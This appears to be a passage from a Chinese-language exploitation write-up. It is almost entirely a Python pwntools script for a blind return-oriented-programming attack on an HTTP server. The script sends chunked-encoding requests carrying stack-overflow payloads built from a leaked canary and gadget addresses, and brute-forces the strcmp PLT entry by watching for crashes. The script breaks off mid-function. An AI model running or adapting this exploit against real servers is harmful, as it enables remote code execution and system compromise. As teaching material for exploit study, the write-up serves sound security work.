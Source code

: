 ```c
strcmp(erroraddr1,erroraddr2); 		==> error
strcmp(trueaddr,erroraddr2); 		==> error
strcmp(erroraddr1,trueaddr); 		==> error
strcmp(trueaddr,trueaddr); 			==> stop
strcmp(vsyscall+0x1000-1,trueaddr);	==> stop
```

上脚本

```python
# -*- coding:utf-8 -*-
# from __future__ import print_function
import socket
from pwn import *

# context.log_level = "error"

base_payload = """
GET / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked\r\n\r\n"""

vsyscall = 0xffffffffff600000

def get_strcmp_plt(canary_offset, canary, buf_size, stop_gadget, depth,useful_gadget,start_addr = 0x400000):
    trueaddr = 0x400000
    erroraddr1 = 0x1
    erroraddr2 = 0x2
    strcmp_plt = start_addr
    while 1:
        strcmp_plt = strcmp_plt + 0x10
        if check_strcmp(canary_offset, canary, buf_size, stop_gadget, depth,useful_gadget,strcmp_plt,erroraddr1,erroraddr1)==1:
            log.info("1 strcmp(erroraddr1,erroraddr2) out 0x%x",strcmp_plt)
            continue
        if check_strcmp(canary_offset, canary, buf_size, stop_gadget, depth,useful_gadget,strcmp_plt,trueaddr,erroraddr2)==1:
            log.info("2 strcmp(trueaddr,erroraddr2) out 0x%x", strcmp_plt)
            continue
        if check_strcmp(canary_offset, canary, buf_size, stop_gadget, depth,useful_gadget,strcmp_plt,erroraddr1,trueaddr)==1:
            log.info("3 strcmp(erroraddr1,trueaddr) out 0x%x", strcmp_plt)
            continue
        if check_strcmp(canary_offset, canary, buf_size, stop_gadget, depth,useful_gadget,strcmp_plt,trueaddr,trueaddr)==0:
            log.info("4 strcmp(trueaddr,trueaddr) out 0x%x", strcmp_plt)
            continue
        if check_strcmp(canary_offset, canary, buf_size, stop_gadget, depth,useful_gadget,strcmp_plt,vsyscall+0x1000-1,trueaddr)==0:
            log.info("5 strcmp(vsyscall+0x1000-1,trueaddr) out 0x%x", strcmp_plt)
            continue
        log.info("find strcmp_plt 0x%x:",strcmp_plt)
        return strcmp_plt
def check_strcmp(canary_offset, canary, buf_size, stop_gadget, depth,useful_gadget,strcmp_plt,addr1,addr2):
    s = connect("127.0.0.1", 80)
    s.send(base_payload + "A" * canary_offset + canary + 'A' * buf_size + p64(useful_gadget+7) + p64(addr1) + p64(addr1) +p64(useful_gadget+9)+ p64(addr2) + p64(strcmp_plt) +p64(stop_gadget) * (depth-6))
    try:
        checkstr = s.recv(timeout=0.5)
        s.close()
        return 1
```